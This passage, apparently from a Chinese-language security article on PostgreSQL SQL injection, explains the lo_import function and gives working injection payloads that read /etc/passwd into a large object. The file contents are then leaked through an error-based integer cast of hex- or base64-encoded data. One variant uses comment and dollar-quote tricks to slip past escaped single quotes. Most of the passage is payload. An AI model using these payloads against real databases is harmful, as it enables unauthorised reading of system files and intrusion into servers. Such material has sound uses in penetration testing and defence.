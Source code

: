 lo\_import 允许指定文件系统路径。该文件将被读取并加载到一个大对象中，并返回该对象的 OID。

```plain
Select lo_import('/etc/passwd',12345678);
select array_agg(b)::text::int from(select encode(data,'hex')b,pageno from pg_largeobject where loid=12345678 order by pageno)a

-- 单引号被转义的情况下使用
select/**/lo_import($$/etc/passwd$$,11111);
select/**/cast(encode(data,$$base64$$)as/**/integer)/**/from/**/pg_largeobject/**/where/**/loid=11111
```

[![9.png](assets/1698894509-4c85a7ff8347715ae08fdbb51be7a862.png)](https://storage.tttang.com/media/attachment/2022/04/13/bf8a1ad0-0207-4e22-bdd6-95ae662d4278.png)
